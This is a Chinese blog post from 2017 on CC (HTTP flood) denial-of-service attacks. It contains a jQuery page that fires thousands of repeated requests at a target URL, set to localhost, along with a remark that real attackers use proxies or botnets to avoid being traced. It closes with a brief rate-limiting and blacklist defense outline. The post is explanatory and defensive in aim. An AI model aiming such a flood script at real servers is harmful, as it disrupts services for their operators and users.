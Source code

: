 ```yaml
---
title: Javascript 模拟CC攻击与防范浅析
date: 2017-10-15 18:13:17
tags: [干货, Javascript]
categories: 前端
---
```

# CC攻击的原理与防范浅析
#### 本人菜鸟一枚，如果说得不对，请见谅，欢迎指正。
## 一、CC攻击的原理： 
##### CC攻击的原理就是攻击者控制某些主机不停地发大量数据包给对方服务器造成服务器资源耗尽，一直到宕机崩溃。CC主要是用来攻击页面的，每个人都有这样 的体验：当一个网页访问的人数特别多的时候，打开网页就慢了，CC就是模拟多个用户(多少线程就是多少用户)不停地进行访问那些需要大量数据操作(就是需 要大量CPU时间)的页面，造成服务器资源的浪费，CPU长时间处于100%，永远都有处理不完的连接直至就网络拥塞，正常的访问被中止。

## 二、Js 模拟CC 攻击
#### CC攻击的种类有三种，直接攻击、代理攻击、僵尸网络攻击
#### 我们就来简单的模拟一下，我这种算是 直接攻击
#### 记住这个只是：简单模拟，简单模拟，简单模拟。
##### 我就一台电脑，没肉鸡。
> js 代码如下：

```html
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1" />
<script  src="http://libs.baidu.com/jquery/1.7.2/jquery.min.js"></script>
</head>
<body>
 <h1>发送请求数：<span id="requestNum">0</span></h1>
<script>
var i=0;
var task="";
//攻击次数
var attackNum = 10000;
//攻击地址
var url="http://127.0.0.1/blog";

//隔几毫秒攻击一次
var time=100;

$(document).ready(function(){	
	task = setInterval("MainTask()",time);
})
function MainTask(){
	i++;
	sendRequest(i);	
	addNum(i);
	if(i > attackNum){
		clearInterval(task);
	}
}
function sendRequest(i){
	console.log("send",i);
	$.ajax({
		type:"get",
		url:url,
		cache:false,
		dataType:"json",
		data:{},
		success:function(data){
			console.log("result-text:",data);
		}
	});
}
function addNum(num){
	$("#requestNum").text(num);
}
</script>
</html>
```
> 这只是简单的模拟，现实中不会那么简单，用本机攻击是可以追踪到你的ip，所以大部分都是通过代理或者肉鸡，进行攻击。ajax 可以不显示回调，不然会耗自己的带宽，我这里简单的模拟。而且现实中还有跨越问题等东西。

## 三、防御浅析
#### 思路：利用拦截器，拦截所有请求，统计单位时间内，单个IP访问的次数。如果访问次数超过你限制的数量，直接拉到黑名单。下次不给访问。统计个数可以用redis来实现，黑名单可以放在数据库，也可直接放缓存。最后就是放数据库，然后服务器启动时，把黑名单缓存起来。

#### springboot 拦截器  和  springboot 操作redis 我都有相对应的文章 与，源码示例，在博客可以搜 springboot 或者点击springboot 标签
#### 防御的具体实现代码，我就不说，这小防御代码挺简单的。
